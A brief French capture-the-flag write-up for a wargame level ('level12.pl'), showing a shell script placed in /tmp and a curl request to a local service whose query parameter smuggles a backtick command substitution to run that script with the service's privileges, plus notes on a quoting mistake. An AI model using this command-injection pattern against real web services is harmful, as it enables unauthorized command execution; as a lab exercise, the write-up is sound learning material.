 ```
echo "getflag" > /tmp/GETFLAG
touch /tmp/CC
chmod 777 /tmp/GETFLAG
```
```
curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
```

Ne marche pas (lance check flag sans les droits).

Comment perdre 1h15: mettre des "" a la place de '' et ne pas comprendre pourquoi level12.pl lance sans les droits.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

```
cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/mdp

chmod 777 /tmp/GETFLAG

curl localhost:4646?x='`/*/GETFLAG`' 
```

